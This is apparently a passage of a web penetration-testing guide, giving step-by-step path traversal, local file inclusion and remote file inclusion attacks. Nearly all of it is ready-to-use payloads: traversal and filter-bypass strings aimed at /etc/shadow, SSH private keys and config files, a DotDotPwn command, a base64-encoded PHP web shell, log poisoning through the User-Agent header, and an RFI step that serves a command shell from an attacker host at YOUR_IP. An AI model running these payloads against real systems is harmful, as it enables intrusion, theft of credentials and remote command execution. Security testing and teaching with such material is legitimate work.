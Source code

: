 ### Step 6.2: Path Traversal
```bash
# Basic payloads
../../../etc/passwd
..%2F..%2F..%2Fetc%2Fpasswd  # URL encoded
....//....//....//etc/passwd  # Filter bypass

# Windows
..\..\..\windows\system32\drivers\etc\hosts

# Read common files
/etc/passwd
/etc/shadow
/var/www/html/config.php
/proc/self/environ
~/.bash_history
~/.ssh/id_rsa
```

#### Automated Tool
```bash
# DotDotPwn
dotdotpwn -m http -h target.com -x 80 -f /etc/passwd -k "root:"
```

### Step 6.3: Local File Inclusion (LFI)
```bash
# Test parameter
curl "$TARGET/page?file=../../../../etc/passwd"

# PHP wrappers
php://filter/convert.base64-encode/resource=index.php
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+

# Log poisoning (if you can write to logs)
# 1. Inject PHP in User-Agent
curl -A "<?php system(\$_GET['cmd']); ?>" $TARGET/

# 2. Include log file
curl "$TARGET/page?file=/var/log/apache2/access.log&cmd=whoami"
```

### Step 6.4: Remote File Inclusion (RFI)
```bash
# Host malicious PHP on your server
echo '<?php system($_GET["cmd"]); ?>' > shell.txt
python3 -m http.server 8000

# Include remote file
curl "$TARGET/page?file=http://YOUR_IP:8000/shell.txt&cmd=whoami"
```

---